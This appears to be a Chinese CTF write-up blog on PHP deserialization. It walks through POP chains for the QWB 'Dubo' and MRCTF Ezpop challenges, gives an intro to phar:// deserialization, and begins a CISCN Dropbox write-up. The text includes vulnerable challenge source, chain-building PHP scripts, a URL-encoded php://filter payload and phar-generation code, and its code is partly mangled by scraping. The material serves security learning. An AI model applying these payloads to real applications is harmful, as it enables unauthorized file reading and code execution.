题目之POP构造（unserialize） 2021强网杯-赌徒 进去之后发现网页提示需要源代码，猜测存在www.zip文件，尝试发现存在该压缩包，下载得到源码。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 <meta charset="utf-8" > <?php error_reporting(1 ); class Start public $name='guest' ; public $flag='syst3m("cat 127.0.0.1/etc/hint");' ; public function __construct () echo "I think you need /etc/hint . Before this you need to see the source code" ; } public function _sayhello () echo $this ->name; return 'ok' ; } public function __wakeup () echo "hi" ; $this ->_sayhello(); } public function __get ($cc) echo "give you flag : " .$this ->flag; return ; } } class Info private $phonenumber=123123 ; public $promise='I do' ; public function __construct () $this ->promise='I will not !!!!' ; return $this ->promise; } public function __toString () return $this ->file['filename' ]->ffiillee['ffiilleennaammee' ]; } } class Room public $filename='/flag' ; public $sth_to_set; public $a='' ; public function __get ($name) $function = $this ->a; return $function(); } public function Get_hint ($file) $hint=base64_encode(file_get_contents($file)); echo $hint; return ; } public function __invoke () $content = $this ->Get_hint($this ->filename); echo $content; } } if (isset($_GET['hello' ])){ unserialize($_GET['hello' ]); }else { $hi = new Start(); } ?>
代码审计过程中，最先关注到的是 unserialize()这个函数：
1 2 3 4 5 if (isset($_GET['hello' ])){ unserialize($_GET['hello' ]); }else { $hi = new Start(); }
如果说get方式传入的hello存在的话就对其进行一个反序列化。
然后发现在Room这个类中有一个file_get_contents()函数读取到内容，参数可控。
因此如果我们能使这个函数执行，就能将所需要的flag显示出来。
分析过程：
从源代码中截取出来的相关代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 class Start public $name='guest' ; public $flag='syst3m("cat 127.0.0.1/etc/hint");' ; public function _sayhello () echo $this ->name; return 'ok' ; } public function __wakeup () echo "hi" ; $this ->_sayhello(); } } class Info public function __toString () return $this ->file['filename' ]->ffiillee['ffiilleennaammee' ]; } class Room public function __get ($name) $function = $this ->a; return $function(); public function Get_hint ($file) $hint=base64_encode(file_get_contents($file)); echo $hint; return ; public function __invoke () $content = $this ->Get_hint($this ->filename); echo $content; } }
首先:
1 2 3 4 5 public function Get_hint ($file) $hint=base64_encode(file_get_contents($file)); echo $hint; return ; }
要读取到file_get_contents的参数内容，我们要执行Get_hint()方法；
发现在同一个Room类中
1 2 3 4 public function __invoke () $content = $this ->Get_hint($this ->filename); echo $content; }
如果__invoke()这个方法被触发，那么就能成功执行Get_hint()方法。invoke()：当这个类会被当做函数执行时触发
继续审计代码，现在我们需要找到一个传入类后会被当做函数执行的点。
1 2 3 public function __get ($name) $function = $this ->a; return $function();
我们发现在Room中的get()方法里，当我们将一个类赋值给a时，该方法执行，就会将a这个类赋值给function，然后将其当做函数进行返回。（return $function();）
__get()：当访问类中的私有属性或者是不存在的属性， 触发 __get魔术方法。
我们将关注点移到__toString()这个方法上。
如果我们将$this->file[‘filename’]用Room这个类进行覆盖，$this->file[‘filename’]->ffiillee[‘ffiilleennaammee’];语句就变成了Room这个类去执行调用ffiillee[‘ffiilleennaammee’]这个属性，但是Room这个类中不存在ffiillee[‘ffiilleennaammee’]，因此会触发__get()方法的执行。
那么问题又转变成了如何触发__toString()方法。__
toString()方法触发的条件是:当一个类被当做字符串执行。
所以问题的最终演变，就成了如何去触发__toString()这个方法。
传统思维就是找echo、等输出函数，因为他们默认是把类当作字符串使用。
在做反序列化的题目中，__wakeup()魔术方法是需要绕过的一个方法。在这个题目里__weakeup()函数确实是一个起点。但是我们在这里需要对其进行利用。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 class Start public $name='guest' ; public function _sayhello () echo $this ->name; return 'ok' ; } public function __wakeup () echo "hi" ; $this ->_sayhello(); } } 所以利用wakeup函数的$this ->_sayhello();语句，调用_sayhello()函数，使得echo $this ->name;语句被使用，当传入一个类将name进行覆盖时，即把类当做字符串使用，成功触发__toString()函数。
所以得到一个反向的思路如下：
读取(file_get_contents($file)——>触发Get_hint()函数——>invoke()函数——>get()函数——>toString()函数——>利用wakeup()函数
正向构造：
1 __wakeup(Start)——>__toString()函数——>__get()函数——>__invoke()函数——>file_get_contents($file)
编写一个POP链：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <?php class Start { public $name='guest'; public $flag='syst3m("cat 127.0.0.1/etc/hint");'; } class Info { } class Room { public $filename='/flag'; } $b=new Start(); $c=new Info(); $b->name=$b;//触发__toString() $b->name->file['filename']=$c; $b->name->file['filename']->a=new Room(); echo serialize($b); ?>
得到：
1 O:5 :"Start" :3 :{s:4 :"name" ;r:1 ;s:4 :"flag" ;s:33 :"syst3m(" cat 127.0 .0 .1 /etc/hint");" ;s:4 :"file" ;a:1 :{s:8 :"filename" ;O:4 :"Info" :1 :{s:1 :"a" ;O:4 :"Room" :1 :{s:8 :"filename" ;s:5 :"/flag" ;}}}}
参考文章： https://bbs.zkaq.cn/t/5259.html
写在题后 在写题的时候也有在网上参照一定的方法进行求解，但是还是没有形成一个思路把它解出来，对pop链的构造不了解，对PHP的语法不熟知。在结束之后对于这道题目的一个pop链以及一些相关魔术方法进行了简单的学习，我感觉构造的思路不算是复杂，大致归为一个个类的套用和方法调用，这个东西是原来在初步了解反序列化题目的时候没有接触的东西，说实话就还是题目做得太少了，接触的面也比较窄。
[MRCTF2020]Ezpop 题目给出源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 Welcome to index.php <?php class Modifier protected $var ; public function append ($value) include($value); } public function __invoke () $this ->append($this ->var ); } } class Show public $source; public $str; public function __construct ($file='index.php' ) $this ->source = $file; echo 'Welcome to ' .$this ->source."<br>" ; } public function __toString () return $this ->str->source; } public function __wakeup () if (preg_match("/gopher|http|file|ftp|https|dict|\.\./i" , $this ->source)) { echo "hacker" ; $this ->source = "index.php" ; } } } class Test public $p; public function __construct () $this ->p = array(); } public function __get ($key) $function = $this ->p; return $function(); } } if (isset($_GET['pop' ])){ @unserialize($_GET['pop']) ; } else { $a=new Show; highlight_file(__FILE__); }
pop链的构造过程:
代码分析可以得到题目切入点只有unserialize($_GET[‘pop’]);如果get传参得到的pop存在的话，就对参数值进行反序列化。
1 2 if (isset ($_GET ['pop' ])){ @unserialize($_GET ['pop' ]);
在Modifier类中有include()函数，文件包含漏洞的函数利用，如果我们用PHP伪协议读取flag.php文件 ，执行这个函数，就能得到flag.php的源码。
如果要执行include(),首先要执行append()函数。
而要执行append()函数，先要触发__invoke()函数：__
invoke()函数的触发条件是当一个类被当做函数调用时执行。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 class Modifier protected $var ; public function append ($value) include($value); } public function __invoke () $this ->append($this ->var ); } }
继续往下看代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 class Test public function __get ($key $function = $this ->p; return $function (); } }
我们发现在get()函数中，如果将一个类赋值给P,执行该函数时p也就是赋值的类就会被当做函数执行（return $function();），由此可以触发invoke()函数。
所以问题变成了该如何触发__get()函数。
get()函数：当访问类中的私有属性或者是不存在的属性， 触发 get魔术方法。
1 2 3 4 5 6 7 8 9 class Show public function __toString ( return $this ->str->source; } }
在Show这个类中，有一个__toString()函数，函数执行会执行return $this->str->source;语句，如果我们将Test类赋值给str，那么str->source的意思就变成了调用Test类中不存在source属性，符合触发__get()函数的条件。
那么要怎样触发__toString()函数使得上述假设成立呢？
我们知道当一个类被当做字符串执行的时候就能触发__toString()函数，具体的实现方法？
传统思维就是找echo、等输出函数，因为他们默认是把类当作字符串使用，但这里发现无论如何都无法利用，而且一般在做CTF的题的时候，定式思维会认为 __wakeup()这个魔术方法是需要绕过的，在这里我们不需要读__wakeup()函数进行绕过，只要对它进行利用即可。
知识点：preg_match() 会将 $this->source作为字符串使用，然后再进行匹配。
1 2 3 4 5 6 7 8 9 10 11 class Show public $source ; public $str ; public function __wakeup ( if (preg_match("/gopher|http|file|ftp|https|dict|\.\./i" , $this ->source)) { echo "hacker" ; $this ->source = "index.php" ; } } }
此时如果我们将source设置为Show这个类，那么通过__wakeup()函数的执行之后，所设置的类就会被当做字符串来执行，从而触发__toString()函数。
以此上述思路形成一个倒推的构造过程：
append($this->var)——>invoke()函数——>get()函数——>str=new Test();——>toString()函数;——>wakeup();
流程：（层级的调用，一层一层的触发）
1 2 3 4 5 Show.__wakeup.source $source = new Show $str =new Test $p =new Modefier $var ='php://filter/read=convert.base64-encode/recource=flag.php'
完整的构造链就是：
wakeup(Show)=>preg_match——>toString(Test)——>get()函数——>invoke()函数—>append($this->var)
因为protected属性只在类的内部可以调用外部不能可以被继承并且重构，所以在构造的时候可能会有一些不可见的字符，因此在后面使用urlencode()函数进行输出。
POP
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 <?php class Modifier protected $var = "php://filter/convert.base64-encode/resource=flag.php" ; } class Show public $source ; public $str ; } class Test public $p ; } $a =new Show();$a ->source=$a ;$str =new Test(); $p =new Modifier();$a ->str=new Test();$a ->str->p=new Modifier();echo urlencode(serialize($a ));?>
得到payload:
payload:?pop=O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BN%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A52%3A%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7D


得到flag。
写在题后 在后来去对照着别人的脚本修改之前，自己写的时候（也有先看了视频再写），一开始没有将Show先实例化，导致结果不正确。
错误的代码：
1 2 3 4 5 6 7 8 9 $source =new Show();$str =new Test(); $p =new Modifier();$var ='php://filter/read=convert.base64-encode/recource=flag.php' ;$source ->str=new Test();$source ->str->p=new Modifier();echo urlencode(serialize($source ));后来对照着别人的脚本自己修改了一遍，也大致理解了先前没明白的点。
y1ng的脚本：（写法不太一样，记录一下）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 <?php class Modifier protected $var = "php://filter/convert.base64-encode/resource=flag.php" ; } class Show public $source ; public $str ; public function __construct ($file $this ->source = $file ; echo 'Welcome to ' .$this ->source."<br>" ; } public function __toString ( return "www.gem-love.com" ; } } class Test public $p ; public function __construct ( $this ->p = new Modifier(); } } $o = new Show('aaa' );$o ->str= new Test();$y1ng = new Show($o );echo urlencode(serialize($y1ng ));在后面的构造当中是调用了一个新定义的Show类里的属性值 $o = new Show('aaa' );$y1ng = new Show($o );通过以上两个语句也能进行层级的调用，这个写法，不太懂的我，就只能先记下了。
文章参考：
https://bbs.zkaq.cn/t/5259.html
phar反序列化的简单了解 知识点小结 phar://伪协议
除了unserialize反序列化之外 ，另一种能够反序列化方式是利用 phar:// 协议触发反序列化,前提是完全可控的文件名。
什么是phar
seebug:
https://paper.seebug.org/680/#4-optional-a-signature-for-verifying-phar-integrity-phar-file-format-only
phar文件是php的压缩文件，它可以把多个文件归档到同一个文件中，而且不经过解压就能被 php 访问并执行，phar://与file:// ，php://等类似，也是一种流包装器，，使用phar:/伪协议读取文件时，文件会被解析成phar对象，phar对象内的以序列化形式存储的用户自定义元数据（metadata）信息会被反序列化。
phar结构
由四部分组成:
phar文件结构：
一个供phar扩展用于识别的标志，格式为xxx，注意此处必须以__HALT_COMPILER();?>结尾，但前面的内容没有限制，也就是说我们可以在前面轻易伪造一个图片文件的头如GIF98a来绕过一些上传限制；
phar文件本质上是一种压缩文件，每个被压缩文件的权限、属性等信息都放在这部分。另外，这部分还会以序列化的形式存储用户自定义的meta-data，这就是触发反序列化的点，当file_exists()，fopen()，file_get_contents()，file()等文件操作函数通过phar://伪协议解析phar文件时就会将数据反序列化。最核心的点。

被压缩文件的内容
signature for verifying Phar integrity
可选项，即签名。
根据phar文件结构我们来自己构建一个phar文件，php内置了一个Phar类来处理相关操作。
注意：要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件。

把前面的分号去掉，将On改成Off.
phar文件要能够上传到服务器端。
要有可用的魔术方法作为“跳板”。
文件操作函数的参数可控，且: / phar等特殊字符没有被过滤。
知道了phar的结构，我们就自己生成一个phar文件：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 phar1.php: <?php class TestObject } $phar = new Phar("phar1.phar" ); $phar ->startBuffering(); $phar ->setStub("<?php __HALT_COMPILER(); ?>" ); $o = new TestObject(); $o -> data='hu3sky' ; $phar ->setMetadata($o ); $phar ->addFromString("test.txt" , "test" ); $phar ->stopBuffering(); ?>
访问之后会在对应目录下生成一个phar1.phar文件：

用winhex打开：

可以看到自定义的meta-data是以序列化的形式存储的。
php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，受影响的函数如下：
受影响的函数列表（详细分析可以参考 https://paper.seebug.org/680/）

我们用phar_fan.php进行测试：
1 2 3 4 5 6 7 8 9 10 11 phar_fan.php： <?php class TestObject function __destruct ( { echo $this -> data; } } include ('phar://phar1.phar' );?>

访问phar_fan.php得到反序列化的结果。
phar文件的生成代码格式都是固定的，只需要将用到的类以及类里面用到的__construct()方法写入，接着创建一个以phar为后缀的对象，设置stub，如果是图片就在文件头前面加上GIF89a，这个内容也是固定的，然后将自定义的meta-data存入manifest，添加要压缩的文件，基本上就可以了。
因为phar也类似于rar那样是一个压缩文件，所以里面要添加压缩的文件，如果没有这个步骤的话，执行文件是不会生成.phar后缀的文件的。
参考文章：
https://xz.aliyun.com/t/2715
Web安全 | PHP反序列化入门这一篇就够了 (qq.com)
题目分析-[CISCN2019 华北赛区 Day1 Web1]Dropbox 写在前面 构造phar（元数据中含有恶意序列化内容）文件–>上传–>触发反序列化 最后一步是寻找触发phar文件元数据反序列化。其实PHP中有一大部分的文件系统函数在通过phar://伪协议解析phar文件时都会将neta-datat进行反序列化。
该方法在文件系统函数（file_exists()、is_dir()等）参数可控的情况下，配合phar://伪协议，可以不依赖unserialize()直接进行反序列化操作。
注册登录之后有一个文件上传操作，并且对文件格式进行限制：png,jpg,gif图片格式。
上传之后发现有下载很删除两个功能。抓包进行分析：

在下载的包中发现存在filename参数，猜测该处存在一个任意文件下载的漏洞，可以下载源码。

依次将index.php，和其包含的class.php，以及操作用到的download.php和delete.php下载下来。
源码：
1 2 3 4 5 6 7 8 9 10 index.php <?php include "class.php" ;$a = new FileList($_SESSION ['sandbox' ]);$a ->Name();$a ->Size();?>
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 class .php <?php error_reporting(0 ); $dbaddr = "127.0.0.1" ;$dbuser = "root" ;$dbpass = "root" ;$dbname = "dropbox" ;$db = new mysqli($dbaddr , $dbuser , $dbpass , $dbname );class User public $db ; public function __construct ( global $db ; $this ->db = $db ; } public function user_exist ($username $stmt = $this ->db->prepare("SELECT `username` FROM `users` WHERE `username` = ? LIMIT 1;" ); $stmt ->bind_param("s" , $username ); $stmt ->execute(); $stmt ->store_result(); $count = $stmt ->num_rows; if ($count === 0 ) { return false ; } return true ; } public function add_user ($username , $password if ($this ->user_exist($username )) { return false ; } $password = sha1($password . "SiAchGHmFx" ); $stmt = $this ->db->prepare("INSERT INTO `users` (`id`, `username`, `password`) VALUES (NULL, ?, ?);" ); $stmt ->bind_param("ss" , $username , $password ); $stmt ->execute(); return true ; } public function verify_user ($username , $password if (!$this ->user_exist($username )) { return false ; } $password = sha1($password . "SiAchGHmFx" ); $stmt = $this ->db->prepare("SELECT `password` FROM `users` WHERE `username` = ?;" ); $stmt ->bind_param("s" , $username ); $stmt ->execute(); $stmt ->bind_result($expect ); $stmt ->fetch(); if (isset ($expect ) && $expect === $password ) { return true ; } return false ; } public function __destruct ( $this ->db->close(); } } class FileList private $files ; private $results ; private $funcs ; public function __construct ($path $this ->files = array (); $this ->results = array (); $this ->funcs = array (); $filenames = scandir($path ); $key = array_search("." , $filenames ); unset ($filenames [$key ]); $key = array_search(".." , $filenames ); unset ($filenames [$key ]); foreach ($filenames as $filename ) { $file = new File(); $file ->open($path . $filename ); array_push($this ->files, $file ); $this ->results[$file ->name()] = array (); } } public function __call ($func , $args array_push($this ->funcs, $func ); foreach ($this ->files as $file ) { $this ->results[$file ->name()][$func ] = $file ->$func (); } } public function __destruct ( $table = '<div id="container" class="container"><div class="table-responsive"><table id="table" class="table table-bordered table-hover sm-font">' ; $table .= '<thead><tr>' ; foreach ($this ->funcs as $func ) { $table .= '<th scope="col" class="text-center">' . htmlentities($func ) . '</th>' ; } $table .= '<th scope="col" class="text-center">Opt</th>' ; $table .= '</thead><tbody>' ; foreach ($this ->results as $filename => $result ) { $table .= '<tr>' ; foreach ($result as $func => $value ) { $table .= '<td class="text-center">' . htmlentities($value ) . '</td>' ; } $table .= '<td class="text-center" filename="' . htmlentities($filename ) . '"><a href="#" class="download">下载</a> / <a href="#" class="delete">删除</a></td>' ; $table .= '</tr>' ; } echo $table ; } class File public $filename ; public function open ($filename $this ->filename = $filename ; if (file_exists($filename ) && !is_dir($filename )) { return true ; } else { return false ; } } public function name ( return basename($this ->filename); } public function size ( $size = filesize($this ->filename); $units = array (' B' , ' KB' , ' MB' , ' GB' , ' TB' ); for ($i = 0 ; $size >= 1024 && $i < 4 ; $i ++) $size /= 1024 ; return round($size , 2 ).$units [$i ]; } public function detele ( unlink($this ->filename); } public function close ( return file_get_contents($this ->filename); } } ?>
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 download.php <?php session_start(); if (!isset ($_SESSION ['login' ])) { header("Location: login.php" ); die (); } if (!isset ($_POST ['filename' ])) { die (); } include "class.php" ;ini_set("open_basedir" , getcwd() . ":/etc:/tmp" ); chdir($_SESSION ['sandbox' ]); $file = new File();$filename = (string ) $_POST ['filename' ];if (strlen($filename ) < 40 && $file ->open($filename ) && stristr($filename , "flag" ) === false ) { Header("Content-type: application/octet-stream" ); Header("Content-Disposition: attachment; filename=" . basename($filename )); echo $file ->close(); } else { echo "File not exist" ; } ?>
